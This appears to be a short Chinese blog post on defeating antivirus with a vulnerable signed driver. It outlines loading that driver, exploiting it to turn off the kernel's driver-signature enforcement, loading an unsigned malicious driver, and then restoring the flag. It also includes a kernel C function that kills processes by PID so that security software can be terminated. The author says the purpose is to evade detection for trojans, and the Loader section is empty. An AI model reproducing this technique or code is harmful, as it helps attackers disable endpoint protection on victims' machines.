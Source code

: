 # VulnBins的利用 \(vuln driver\)

## 简介

挺久没水博客了，今个简单写点，现在的杀软越来越"现代化"了，老是尝试免杀已有木马使我疲惫，干脆想种一劳永逸的解决办法，\(自写C2 狗头\),当然这是个体力活，这篇文件简单介绍下白漏洞驱动带起黑驱动，直接从内核干掉杀软。

## 流程

1. 找一个存在任意文件读取的漏洞驱动
2. 加载驱动并漏洞利用修改内核DES位\(作用于驱动签名校验\)
3. 加载黑驱动
4. 漏洞利用改回原值
5. 卸载白驱动

### 代码片段

### 鲨进程 驱动片段

获取当前进程EPROCESS,遍历ActiveProcessLinks获取和判断进程,符合条件就给扬了,当然最好用点强杀手段。

```text
BOOLEAN KillProcess(ULONG PID)
{
	NTSTATUS ntStatus = STATUS_SUCCESS;
	PVOID hProcess;
	PEPROCESS pEprcess;
	ntStatus = PsLookupProcessByProcessId(PID, &pEprcess);

	if (NT_SUCCESS(ntStatus))
	{
		if (ObOpenObjectByPointer((PVOID)pEprcess, 0, NULL, 0, NULL, KernelMode, &hProcess) != STATUS_SUCCESS)
			{
			return FALSE;
			}
		ZwTerminateProcess((HANDLE)hProcess, STATUS_SUCCESS);
		ZwClose((HANDLE)hProcess);
		return TRUE;
	}
};

```

### Loader

```text

```



